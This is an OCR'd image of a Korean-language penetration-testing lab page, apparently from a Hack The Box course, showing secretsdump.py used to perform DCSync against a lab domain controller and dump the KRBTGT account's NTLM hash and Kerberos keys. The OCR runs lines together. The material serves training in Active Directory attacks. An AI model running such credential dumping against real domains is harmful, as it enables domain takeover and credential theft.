 # Secretdump.py로 DCsync 수행하기

`secretsdump.py를` 사용하여 DCSync를 실행하고 KRBTGT 계정에 대한 NTLM 해시를 가져올 수 있습니다.

```bash
realblackcat@htb[/htb]$ secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgtImpacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation 비밀번호: [*] 도메인 자격증명 덤프 (domain\uid:rid:lmhash:nthash) [*] DRSUAPI 방법을 사용하여 NTDS 가져오기.DIT 시크릿 krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9d765b482771505cbe97411065964d5f::: [*] Kerberos 키 가져온 krbtgt:aes256-cts-hmac-sha1-96:d9a2d6659c2a182bc93913bbfa90ecbead94d49dad64d23996724390cb833fb8
krbtgt:aes128-cts-hmac-sha1-96:ca289e175c372cebd18083983f88c03e
krbtgt:des-cbc-md5:fee04c3d026d7538
[*] Cleaning up...
```
